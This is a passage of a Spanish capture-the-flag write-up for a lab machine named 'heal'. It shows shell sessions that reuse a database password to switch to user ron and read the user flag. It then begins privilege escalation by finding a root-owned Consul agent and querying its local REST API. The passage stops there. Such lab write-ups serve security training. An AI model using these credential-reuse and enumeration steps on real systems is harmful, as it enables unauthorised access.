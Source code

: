 Como hemos visto por la lectura arbitraria de archivos, hay un usuario llamado `ron`:

```bash
www-data@heal:~/limesurvey/application/config$ ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Dec  9 12:53 .
drwxr-xr-x 19 root  root  4096 Dec  8 13:57 ..
drwxr-x--- 13 ralph ralph 4096 Dec  9 12:57 ralph
drwxr-x---  3 ron   ron   4096 Dec  9 15:13 ron
```

Esta contraseña de la base de datos sirve para el mismo.

```bash
www-data@heal:~/limesurvey/application/config$ su ron
Password: 
ron@heal:/var/www/limesurvey/application/config$
```

En el directorio personal de este usuario encontraremos la primera flag.

```bash
ron@heal:~$ ls -al
total 28
drwxr-x--- 3 ron  ron  4096 Dec  9 15:13 .
drwxr-xr-x 4 root root 4096 Dec  9 12:53 ..
lrwxrwxrwx 1 root root    9 Dec  9 12:57 .bash_history -> /dev/null
-rw-r--r-- 1 ron  ron   220 Dec  9 12:53 .bash_logout
-rw-r--r-- 1 ron  ron  3771 Dec  9 12:53 .bashrc
drwx------ 2 ron  ron  4096 Dec  9 15:13 .cache
-rw-r--r-- 1 ron  ron   807 Dec  9 12:53 .profile
-rw-r----- 1 root ron    33 May 21 15:31 user.txt
ron@heal:~$ cat user.txt
43edc3585d509938ebee8b027d******
```

## Escalada de privilegios

Hay un consul en escucha únicamente por las direcciones internas de la máquina:

```bash
ron@heal:/$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
... [snip]
root        2713  0.7  2.5 1357540 103132 ?      Ssl  15:34   3:13 /usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data
```

[Consul](https://developer.hashicorp.com/consul) es un software para manejar las conexiones entre los servicios de software de forma automatizada.

Buscando información acerca de, podemos ver que en el puerto `8500` está en escucha la API REST del mismo, y probando por el endpoint `/v1/catalog/services`:

```bash
ron@heal:/$ curl -v http://127.0.0.1:8500/v1/catalog/services; echo
*   Trying 127.0.0.1:8500...
* Connected to 127.0.0.1 (127.0.0.1) port 8500 (#0)
> GET /v1/catalog/services HTTP/1.1
> Host: 127.0.0.1:8500
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json
< Vary: Accept-Encoding
< X-Consul-Default-Acl-Policy: allow
< X-Consul-Effective-Consistency: leader
```